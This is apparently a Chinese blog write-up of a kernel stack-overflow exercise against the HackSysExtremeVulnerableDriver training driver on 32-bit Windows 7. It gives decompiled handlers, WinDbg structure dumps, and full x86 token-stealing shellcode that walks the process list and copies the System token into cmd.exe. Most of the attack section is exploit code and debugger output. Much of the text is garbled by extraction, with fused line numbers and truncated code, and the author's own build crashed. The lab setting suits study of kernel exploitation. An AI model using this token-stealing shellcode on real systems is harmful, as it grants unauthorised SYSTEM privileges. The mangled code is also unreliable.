

漏洞原理 栈溢出 栈溢出指的是程序向栈中某个变量中写入的字节数超过了这个变量本身所申请的字节数，因而导致与其相邻的栈中的变量的值被改变。
漏洞点分析 可以看到在安全函数中，RtlCopyMemory对内存拷贝大小进行限制，控制可拷贝内存大小最大是KernelBuffer大小，而漏洞函数却没有对拷贝大小进行限制，可导致栈溢出。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 #ifdef SECURE sizeof (KernelBuffer));#else "[+] Triggering Buffer Overflow in Stack\n" );
BUFFER_SIZE是512，KernelBuffer是ULONG类型的，也就是 unsigned long类型，在32位系统中，字节数为4字节；在64位系统中，Visual C++和Mingw64字节数为4字节。GCC（POSIX系统以及Cygwin）为8字节，Clang的与GCC类似，不同平台不同实现。所以sizeof(KernelBuffer)就是0x800.
通过IDA查看函数的执行流

跟进DriverEntry
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 NTSTATUS __stdcall DriverEntry(PDRIVER_OBJECT DriverObject, int a2)0 ;0 ;0 ;"\\Device\\HackSysExtremeVulnerableDriver" );"\\DosDevices\\HackSysExtremeVulnerableDriver" );0 , &DestinationString, 0 x22u, 0 x100u, 0 , &DeviceObject);if ( v2 >= 0 )memset32 (DriverObject->0 x1Cu);riverObject ->14 ] = (PDRIVER_DISPATCH)IrpDeviceIoCtlHandler;riverObject ->0 ] = (PDRIVER_DISPATCH)IrpCreateCloseHandler;riverObject ->2 ] = (PDRIVER_DISPATCH)IrpCreateCloseHandler;riverObject ->v3 ->0 x10u;eviceObject ->0 xFFFFFF7F;
跟进IrpDeviceIoCtlHandler
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 NTSTATUS __stdcall IrpDeviceIoCtlHandler(int a1, PIRP Irp)int v4; const CHAR *v6; 1073741637 ;if ( v3 )switch ( v3->Parameters.Read.ByteOffset.LowPart )case 0 x222003u:0 x4Du, 3 u, "****** HEVD_IOCTL_BUFFER_OVERFLOW_STACK ******\n" );int )Irp, (int )v3);"****** HEVD_IOCTL_BUFFER_OVERFLOW_STACK ******\n" ;goto LABEL_4;
跟进BufferOverflowStackIoctlHandler
1 2 3 4 5 6 7 8 9 10 11 int __stdcall BufferOverflowStackIoctlHandler(int a1 , int a2 )v2 v3 v2 = -1073741823 v3 = *(void **)(a2 + 16 )if ( v3 )v2 = TriggerBufferOverflowStack(v3 , *(_DWORD *)(a2 + 8 ))v2
再跟进TriggerBufferOverflowStack就是我们的漏洞函数
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 int __stdcall TriggerBufferOverflowStack(void * Address, size_t MaxCount) char Dst; 0 , 0x800 u);0 ;ProbeForRead(Address, 0x800u, 1u) ;_DbgPrintEx(0x4Du, 3u, "[+] UserBuffer: 0x%p\n" , Address) ;_DbgPrintEx(0x4Du, 3u, "[+] UserBuffer Size: 0x%X\n" , MaxCount) ;_DbgPrintEx(0x4Du, 3u, "[+] KernelBuffer: 0x%p\n" , &Dst) ;_DbgPrintEx(0x4Du, 3u, "[+] KernelBuffer Size: 0x%X\n" , 2048) ;_DbgPrintEx(0x4Du, 3u, "[+] Triggering Buffer Overflow in Stack\n" ) ;0 ;
提权 这里我们用的方法是Token Stealing，什么是token呢？访问令牌（access token）是描述进程或线程的安全上下文的对象。令牌中的信息包括与进程或线程关联的用户帐户的标识和特权。当用户登录时，系统通过与安全数据库中存储的信息进行比较来验证用户的密码。如果密码经过身份验证，系统将生成一个访问令牌。代表此用户执行的每个进程都有此访问令牌的副本。
如果攻击者能够获得对工作站的系统级访问权限，例如通过破坏本地管理员帐户，并且域管理员帐户已登录到该计算机，则攻击者可能只需读取内存中的管理员访问令牌并将其窃取，以允许他们模拟该帐户。
读/写进程令牌（token） 当线程与安全对象交互或试图执行需要权限的系统任务时，系统使用访问令牌来标识用户。访问令牌包含以下信息：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 kd> dt _TOKEN0 x000 TokenSource : _TOKEN_SOURCE 0 x010 TokenId : _LUID 0 x018 AuthenticationId : _LUID 0 x020 ParentTokenId : _LUID 0 x028 ExpirationTime : _LARGE_INTEGER 0 x030 TokenLock : Ptr32 _ERESOURCE0 x034 ModifiedId : _LUID 0 x040 Privileges : _SEP_TOKEN_PRIVILEGES 0 x058 AuditPolicy : _SEP_AUDIT_POLICY 0 x074 SessionId : Uint4B 0 x078 UserAndGroupCount : Uint4B 0 x07c RestrictedSidCount : Uint4B 0 x080 VariableLength : Uint4B 0 x084 DynamicCharged : Uint4B 0 x088 DynamicAvailable : Uint4B 0 x08c DefaultOwnerIndex : Uint4B 0 x090 UserAndGroups : Ptr32 _SID_AND_ATTRIBUTES0 x094 RestrictedSids : Ptr32 _SID_AND_ATTRIBUTES0 x098 PrimaryGroup : Ptr32 Void0 x09c DynamicPart : Ptr32 Uint4B0 x0a0 DefaultDacl : Ptr32 _ACL0 x0a4 TokenType : _TOKEN_TYPE 0 x0a8 ImpersonationLevel : _SECURITY_IMPERSONATION_LEVEL 0 x0ac TokenFlags : Uint4B 0 x0b0 TokenInUse : UChar 0 x0b4 IntegrityLevelIndex : Uint4B 0 x0b8 MandatoryPolicy : Uint4B 0 x0bc LogonSession : Ptr32 _SEP_LOGON_SESSION_REFERENCES0 x0c0 OriginatingLogonSession : _LUID 0 x0c8 SidHash : _SID_AND_ATTRIBUTES_HASH 0 x150 RestrictedSidHash : _SID_AND_ATTRIBUTES_HASH 0 x1d8 pSecurityAttributes : Ptr32 _AUTHZBASEP_SECURITY_ATTRIBUTES_INFORMATION0 x1dc VariablePart : Uint4B
一种常见的方法是用特权进程令牌替换非特权进程令牌。如果特权进程在沙盒中，则该方法可能无效。为了完成它，我们应该知道哪个是非特权进程，哪个是特权进程。
创建一个名为shellcode.exe的程序. 如果我们在cmd.exe运行它，它可以帮助父进程cmd.exe获得更高的特权。该方法的工作原理如下：
➢ 查找当前进程 (shellcode.exe)的EPROCESS .
问题：如何在进程中定位ACCESS TOKEN是关键？
1 2 3 4 kd > !process 0 0 cmd.exePROCESS 87948 d40 SessionId: 1 Cid: 0 bc8 Peb: 7 ffd4000 ParentCid: 05 a4 DirBase : 3 e8204 c0 ObjectTable: a9352158 HandleCount: 23 .Image : cmd.exe
1 2 kd> dt nt!_EPROCESS 87948 d40 TOKEN 0x0f8 Token : _EX_FAST_REF
Note: 87948d40 是EPROCESS地址
查找当前进程 (shellcode.exe)的EPROCESS 问题：如何定位当前进程的EPROCESS？
FS:0x120 →→ _KPCR
KPCR 代表（内核）处理器控制区域（(Kernel) Processor Control Region）。 内核为每个逻辑处理器保留一个KPCR。 引导处理器的KPCR位于加载程序提供的空间中，或者位于内核的.data部分，但是每个附加处理器的KPCR处于内核在一个内存分配中构建的大规模每个处理器状态的开始。 例如，在6.0版中：fs 或gs 寄存器，来寻址该处理器的KPCR。
KTHREAD : KTHREAD结构是ETHREAD结构的内核核心部分。 ETHREAD结构是线程对象的内核表示。
KPROCESS : KPROCESS结构是EPROCESS 结构的内核核心部分。EPROCESS结构是进程对象的内核表示
1 2 3 4 5 6 7 kd> dt _KPCR -r0 x120 PrcbData : _KPRCB 0 x000 MinorVersion : Uint2B 0 x002 MajorVersion : Uint2B 0 x004 CurrentThread : Ptr32 _KTHREAD
1 2 3 kd> dt _KTHREAD Process_KTHREAD 0 x150 Process : Ptr32 _KPROCESS
在汇编代码中，当前进程的EPROCESS地址可以通过以下指令找到：
1 2 mov eax , dword ptr fs :[124h ] mov eax , dword ptr [eax + 150h ]
查找父进程(cmd.exe)的进程ID 当shellcode.exe在cmd.exe中执行时，可以将其视为子进程，而cmd.exe是父进程。 在这里，我们为父进程（cmd.exe）获得了更高的特权。 为了将权限转移到目标程序（例如：cmd.exe），我们首先应该找到cmd.exe的访问令牌。 例如：878784d0是当前进程的EPROCESS地址。
父进程
子进程（当前进程）
cmd.exe（获得更高的特权）
shellcode.exe
当前EPROCESS的InheritedFromUniqueProcessId是父进程ID， InheritedFromUniqueProcessId用来接收父进程ID
FS:0x120 →→ _KPCR
InheritedFromUniqueProcessId相对于当前进程的偏移量为0x140。
1 2 3 4 5 6 kd> dt _EPROCESS 87948d40 InheritedFromUniqueProcessId0 x140 InheritedFromUniqueProcessId : 0 x000005a4 Void0 x000005a4 1444 = 000005a4
在汇编代码中，父进程的进程ID可以通过以下指令找到：
1 mov ebx , dword ptr [eax + 140h ]
从父进程读取ACCESS TOKEN 问题：如何定位父进程(cmd.exe)的EPROCESS ?
_KPROCESS:0xb4 →→ UniqueProcessId
使用成员ActiveProcessLinks，我们可以使用dt命令转储内核中所有活动进程的列表。
1 2 3 4 5 dt nt!_EPROCESS -l ActiveProcessLinks.Flink 87948 d40 dt nt!_EPROCESS -l ActiveProcessLinks.Flink 87948 d40 UniqueProcessId ; dumpall Process IDdt nt!_EPROCESS -l ActiveProcessLinks.Flink 87948 d40 ImageFileName ; dumpall Process Name
1 2 3 4 5 6 7 8 9 kd> dt _EPROCESS 87948 d40_EPROCESS 0 x000 Pcb : _KPROCESS 0 x098 ProcessLock : _EX_PUSH_LOCK 0 x0a0 CreateTime : _LARGE_INTEGER 0 x01d6cf97`fca14aa00 x0a8 ExitTime : _LARGE_INTEGER 0 x00 x0b0 RundownProtect : _EX_RUNDOWN_REF 0 x0b4 UniqueProcessId : 0 x00000bc8 Void0 x0b8 ActiveProcessLinks : _LIST_ENTRY [ 0 x87936da0 - 0 x879a8df8 ]
在EPROCESS的偏移0xb4处，存放着进程的PID,在偏移0xb8处，存放着_LIST_ENTRY链表，这个链表放着所有的EPROCESS，然后可以遍历它们，查找名为cmd.exe的父进程的PID：
1 2 3 4 5 6 mov ecx , eax loop1: mov ecx , dword ptr [ecx + b8h ]sub ecx , b8h cmp dword ptr [ecx + b4h ], ebx jne loop1
access token是描述进程或线程的安全上下文的对象。 令牌中的信息包括与进程或线程关联的用户帐户的标识和特权。 完成此操作后，我们要查找令牌的地址，因为这是我们要替换的地址。 它位于偏移量0xf8处，如下所示：
_KPROCESS:0xb4 →→ UniqueProcessId
1 2 3 kd> dt _EPROCESS 878784 d0 Token_EPROCESS 0 x0f8 Token : _EX_FAST_REF
因此，在继续之前，我们一定要存储该地址：
1 2 mov edx , ecx add edx , f8h
从特权进程读取ACCESS TOKEN 为了获得SYSTEM特权，我们需要找到System进程的EPROCESS。 由于System的PID始终为4，因此我们可以通过以下方式找到它：
1 2 3 4 5 6 7 8 mov ecx , eax loop2: mov ecx , dword ptr [ecx + b8h ]sub ecx , b8h cmp dword ptr [ecx + b4h ], 4 jne loop2mov eax , ecx add eax , f8h
这给了我们System进程的EPROCESS地址。
_KPROCESS:0xf8→→ Token
替换非特权进程的访问令牌 下一步是替换cmd.exe进程的令牌。 只需通过覆盖现有令牌即可完成：
1 2 mov eax , dword ptr [eax ]mov dword ptr [edx ], eax
EAX contains offset 0xF8 of the EPROCESS address of the System Process .
Pwned 汇编代码如下
用的是nasm+alink
nasm和alink可以在这里下载：nasmalink
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 BITS 32 section .textmov eax , dword fs :[0x124 ] mov eax , dword [eax + 0x150 ] mov ebx , dword [eax + 0x140 ] mov ecx , eax loop1: mov ecx , dword [ecx + 0xb8 ] sub ecx , 0xb8 cmp dword [ecx + 0xb4 ], ebx jne loop1 mov edx , ecx add edx , 0xf8 xor ecx ,ecx mov ecx , eax loop2: mov ecx , dword [ecx + 0xb8 ] sub ecx , 0xb8 cmp dword [ecx + 0xb4 ], 4 jne loop2 mov eax , ecx add eax , 0xf8 mov eax , dword [eax ]mov dword [edx ], eax ret
编译链接
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 F:\nasm>nasm -fwin32 shell .asmshell .objCopyright 1998-9 Anthony A.J. Williams.file shell .objfile shell .exeno entry point specifiedshell
这个例子提权没成功，程序崩溃，也没找到原因，还是先回到题目吧
回到题目 首先会通过fs段寄存器获取_KTHREAD结构体，fs段寄存器存放了关于线程的各种信息，当处于内核态时，fs的值为0x30，处于用户态时fs值则为0x3b
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 kd> r fs00000030 124 ]0030 :00000124 83f6f380 00000000 83f6f380 00000100 0030 :00000134 60010115 0001003 f 00000000 00000000 0030 :00000144 00000000 00000000 ffff0ff0 00000400 0030 :00000154 00000000 00000000 00000000 00000000 0030 :00000164 00000000 00000000 00000000 00000000 0030 :00000174 00000000 00000000 83 efeae7 83e41f64 0030 :00000184 00000002 00000000 83f62658 83 e41e8d0030 :00000194 00000000 00000000 00000080 83 e41f1083f6f380 0 x000 Header : _DISPATCHER_HEADER0 x010 CycleTime : 0 x0000008e`2d 27fbf30 x03c Reserved : 0 y000000000000000000 (0 )0 x03c MiscFlags : 0 n81930 x040 ApcState : _KAPC_STATE0 x040 ApcStateFill : [23 ] "???"0 x057 Priority : 0 ''0 x000 ApcListHead : [2 ] _LIST_ENTRY0 x010 Process : Ptr32 _KPROCESS0 x014 KernelApcInProgress : UChar0 x015 KernelApcPending : UChar0 x016 UserApcPending : UChar
KTHREAD结构的偏移0x50处为KPROCESS结构，而KPROCESS为EPROCESS结构的第一个字段，即定位到了_EPROCESS结构。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 kd> dd 83f6f380 +50 83f6f3d0 not properly sign extended83f6f3d0 859f8a20 00000000 00000000 00000000 83f6f3e0 00000000 000064e0 00020002 00000000 83f6f3f0 00000000 00000000 00000000 00000000 83f6f400 00000000 00000000 00000000 00000000 83f6f410 00000008 00000000 83f6f488 83f6f488 83f6f420 00000000 00000000 00000000 00000000 83f6f430 00000000 00000000 00000060 83 fa49c083f6f440 00000000 00000000 83f6f380 00000000 859f8a20 0 x000 Pcb : _KPROCESS0 x098 ProcessLock : _EX_PUSH_LOCK0 x0a0 CreateTime : _LARGE_INTEGER 0 x01d6cfbb`f72e7f4c0 x0a8 ExitTime : _LARGE_INTEGER 0 x00 x0b0 RundownProtect : _EX_RUNDOWN_REF0 x0b4 UniqueProcessId : 0x00000004 Void0 x0b8 ActiveProcessLinks : _LIST_ENTRY [ 0 x86df60d8 - 0 x83f7cf18 ]0 x0c0 ProcessQuotaUsage : [2 ] 0 0 x0c8 ProcessQuotaPeak : [2 ] 0
一旦获取了EPROCESS结构，我们能做很多事情，最简单的，观察偏移0xb4位置，存放着当前进程的PID，而0xb8位置，存放着一个 LIST_ENTRY结构，这个结构存放着前面一个EPROCESS和后一个 EPROCESS，这就很有意思了。
我可以通过这种方法，遍历当前系统所有存在的EPROCESS，而且能够找到System的 EPROCESS，实际上，这个_EPROCESS，我们通过Windbg的!process 0 0的方法可以获取到。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 kd> !process 0 0 system859f8a20 SessionId: none Cid: 0004 Peb: 00000000 ParentCid: 0000 00185000 ObjectTable: 89001b60 HandleCount: 495 .859f8a20 +b80 x86df60d8 - 0 x83f7cf18 ]0 x000 Flink : 0 x86df60d8 _LIST_ENTRY [ 0 x873fe0e8 - 0 x859f8ad8 ]0 x004 Blink : 0 x83f7cf18 _LIST_ENTRY [ 0 x859f8ad8 - 0 x879dd320 ]859f8a20 +b8859 f8ad8 not properly sign extended859 f8ad8 86d f60d8 83 f7cf18 00000000 00000000 859 f8ae8 00000000 00000000 0000000 b 83 f70cc0859 f8af8 00000000 007c7000 00250000 00000000 859f8b08 00000000 00000000 00000000 89001b60 859f8b18 890012c4 00000000 00000000 00000000 859f8b28 00000000 00000000 85 a03e00 00000000 859f8b38 00000004 00000040 00000000 00000000 859f8b48 00000000 00000000 00000000 00000000 86d f60d8-b8 ；这就是system的_EPROCESS0 x000 Pcb : _KPROCESS0 x098 ProcessLock : _EX_PUSH_LOCK0 x0a0 CreateTime : _LARGE_INTEGER 0 x01d6cfbb`f73f28ee0 x0a8 ExitTime : _LARGE_INTEGER 0 x00 x0b0 RundownProtect : _EX_RUNDOWN_REF0 x0b4 UniqueProcessId : 0x00000100 Void0 x0b8 ActiveProcessLinks : _LIST_ENTRY [ 0 x873fe0e8 - 0 x859f8ad8 ]0 x0c0 ProcessQuotaUsage : [2 ] 0 x2f8
回到shellcode，后面有一个loop循环，在循环中做的事情就是不断通过链表的前向指针和后向指针找到System的_EPROCESS结构，也就是＋0xb4位置的PID为4的结构，在结构中存放着token，只要找到System的token，替换掉当前进程的token，就可以完成提权了。
payload
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 VOID TokenStealingPayloadWin7 () {xor eax, eax ; Set ZERO0x124 ]7 SP1 SYSTEM process PID = 0x4 xor eax, eax ; Set NTSTATUS SUCCEESS12 ; Fix the stack 8 ; Return cleanly
参考：
https://whereisk0shl.top/hevd-kernel-exploitation-uninitialized-stack-&-heap.html
https://www.cnblogs.com/huity35/p/11231155.html